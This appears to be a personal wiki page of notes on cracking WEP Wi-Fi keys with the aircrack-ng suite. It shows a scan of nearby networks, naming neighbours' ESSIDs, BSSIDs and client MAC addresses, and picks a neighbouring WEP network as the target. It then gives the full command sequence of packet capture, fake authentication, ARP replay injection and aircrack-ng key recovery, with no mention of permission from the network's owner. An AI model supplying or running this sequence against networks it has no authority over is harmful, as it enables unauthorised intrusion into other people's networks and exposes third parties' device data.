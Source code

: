 * [[Components]] -- Devices I could buy to be more efficient
* [[Drivers]] -- It might be necessary to update the wifi driver

= Goal =
This attack aimed at cracking the key

Following the tutorial, wireless exposed and the internet :
https://www.youtube.com/watch?v=jETwvEDaJeQ

== Configure the interfaces manually (iw) ==

Doing in with my router.

Check the interface with the command:
    ifconfig -a

Reset all and put down the interface with airmon:
    sudo ifconfig wlp3s0b1 down

The output of ifconfig will not list wlp3s0b1.

Bring the interface up:
    sudo ifconfig wlp3s0b1 up

Perform an active scan:
    sudo iw dev wlp3s0b1 scan

This output of the above command is huge. It scans all the wireless network
around, for example:

    * [[mynumericable]]

list all the interface:
    sudo ip link

create a monitor mode interface:
    sudo iw dev wlp3s0b1 interface add moni0 type monitor

Manually set the channel because my network is running there and I want to fix
the problem I have not been able to capture data packets:
    sudo iw dev wlp3s0b1 set channel 11

Other options to listen and inject:

    sudo aiwlp3s0b1rmon-ng check wlp3s0b1
    sudo airmon-ng stop wlp3s0b1

    To start the network card in monitor mode:
    sudo airmon-ng start wlp3s0b1

Check that is running in Monitor mode:
    iwconfig

    sudo airodump-ng wlp3s0b1

== Using aircrack suite ==

Scan the network to find a target:
    sudo airmon-ng moni0

CH  7 ][ Elapsed: 7 mins ][ 2016-06-09 16:16

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 A0:21:B7:D5:BA:F6  -38      902        0    0   6  54e  WPA2 CCMP   PSK  NUMERICABLE-34C0
 00:19:70:AA:CD:B0  -55     1180        0    0   5  54e. WPA2 CCMP   PSK  CIA6726fb5e9a
 00:19:70:91:62:65  -75      273        0    0   1  54e. WPA2 CCMP   PSK  bbox2-0da4
 9C:97:26:44:86:DD  -77      343        0    0   1  54e  WPA2 CCMP   PSK  PrincessPaillettée
 00:19:70:AF:66:1D  -78      231        0    0   1  54e. WPA2 CCMP   PSK  bbox2-54f4
 F4:06:8D:71:7F:3A  -80       96        0    0  11  54e  WEP  WEP         NUMERICABLE-CD61
 00:19:70:6E:56:DA  -80       89        0    0   1  54e. WEP  WEP         mvm search belgium
 0A:19:70:6E:56:DA  -81      129        0    0   1  54e. WPA2 CCMP   MGT  PROXIMUS_AUTO_FON
 06:19:70:6E:56:DA  -80      150        0    0   1  54e. OPN              PROXIMUS_FON
 F4:06:8D:54:51:E8  -80      105        0    0  11  54e. WPA2 CCMP   PSK  devolo-96c
 00:0C:F6:A8:BB:C8  -81      116        0    0   6  54e  WPA2 CCMP   PSK  Sitecom_a8bbc8

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 (not associated)   EC:1F:72:DB:98:B2  -45    0 - 1      0      166  NUMERICABLE-34C0,Xdius2
 (not associated)   F0:D1:A9:23:0E:33  -63    0 - 1      0       10
 (not associated)   84:29:99:00:5C:54  -66    0 - 1      0       24  PrincessPaillettée
 (not associated)   1C:AB:A7:B2:69:E5  -77    0 - 1      0       11
 (not associated)   6C:88:14:5C:26:A0  -79    0 - 1      0       18  Securitas Alert
 (not associated)   00:0C:F6:A8:BB:C9  -81    0 - 1      0        9  WiFi-2.4-EE78
 (not associated)   A0:88:B4:D6:DF:90  -27    0 - 1      0       67  NUMERICABLE-34C0

Should I wish to crack NUMERICABLE-CD61 or mvm, I would need to write down:

| BSSID             | CH | ESSID              |
|-------------------|----|--------------------|
| F4:06:8D:71:7F:3A | 11 | NUMERICABLE-CD61   |
| 00:19:70:6E:56:DA | 1  | mvm search belgium |>

Note that the CH is the channel and it is the frequency of the wave.  More
information in https://en.wikipedia.org/wiki/List_of_WLAN_channels

== There is a problem ==
Despite all my efforts the #Data does not increase, it stays at 0.
I have changed my cards for an external one and it works.

Following : http://www.aircrack-ng.org/doku.php?id=injection_test&DokuWiki=e2252c309028d2da4fd9b130129c044b

    ➜  Hacking sudo aireplay-ng -9 moni0
    19:03:34  Trying broadcast probe requests...
    19:03:34  Injection is working!
    19:03:36  Found 4 APs

    19:03:36  Trying directed probe requests...
    19:03:36  00:19:70:AA:CD:B0 - channel: 5 - 'CIA6726fb5e9a'
    19:03:41  Ping (min/avg/max): 4.113ms/22.613ms/49.862ms Power: -53.20
    19:03:41   5/30:  16%

    19:03:41  A0:21:B7:D5:BA:F6 - channel: 11 - 'NUMERICABLE-34C0'
    19:03:46  Ping (min/avg/max): 8.070ms/15.200ms/29.468ms Power: -26.00
    19:03:46   4/30:  13%

    19:03:46  54:B8:0A:ED:78:FF - channel: 6 - 'dlink_DWR-730_78FF'
    19:03:51  Ping (min/avg/max): 4.429ms/28.498ms/96.281ms Power: -78.57
    19:03:51   7/30:  23%

    19:03:51  00:19:70:AF:66:1D - channel: 1 - 'bbox2-54f4'
    19:03:56  Ping (min/avg/max): 4.186ms/17.858ms/40.960ms Power: -81.67
    19:03:56   3/30:  10%

It says that the injection is working.

	➜  Hacking sudo aireplay-ng --test -e NUMERICABLE-34C0 -a A0:21:B7:D5:BA:F6 moni0
	19:07:20  Waiting for beacon frame (BSSID: A0:21:B7:D5:BA:F6) on channel 8
	19:07:20  moni0 is on channel 8, but the AP uses channel 11

Another test tell me that I have a configuration problem.


Take the following action during the same period:

1) The following line will link my wifi to that particular connection:

sudo airodump-ng -w wep -c 11 --bssid F4:06:8D:71:7F:3A wlp3s0b1

2) Let the above command run for sometime and in the meantime run the following:

sudo aireplay-ng -1 0 -a F4:06:8D:71:7F:3A wlp3s0b1

This command will associate my wifi with the connection so that I could
transmit data.

In another consol, type the following:

3) sudo aireplay-ng -3 -b F4:06:8D:71:7F:3A wlp3s0b1

This command will start sending/receiving data on the new link.

Now you could check action 1 and see that we are sending and receiving data.

We should wait that the amount of data hit 30,000. This will take an hour or so.
Once this is done, take 3 and interrupt with ctrl-c.

Now we check the directory to find a file .cap the key is inside.

Then type:
sudo aircrack-ng <file.cap>
